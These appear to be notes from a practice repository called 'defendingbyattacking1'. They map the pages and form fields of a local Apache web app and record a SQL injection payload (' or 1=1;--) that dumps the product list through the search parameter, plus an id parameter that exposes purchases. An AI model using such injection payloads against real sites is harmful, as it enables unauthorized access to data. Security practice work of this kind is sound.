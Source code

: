 # defendingbyattacking1

Apache/2.4.37 (centos)

http://localhost:8080/index.php
Request Method: 
GET

http://localhost:8080/products/search.php?product
Request Method: 
GET
<input name="product" type="text">

http://localhost:8080/loginform.php
Request Method: 
POST
			<input name="username" type="text">
			<input name="password" type="password">

http://localhost:8080/signup.php
Request Method: 
GET

http://localhost:8080/contact.php
Request Method: 
POST

http://localhost:8080/products/search.php?product=%27+or+1%3D1%3B--
' or 1=1;--
get Product list:

http://localhost:8080/secret.php?id=1
Request Method: 
GET
parameter"id" 
get purchase list 
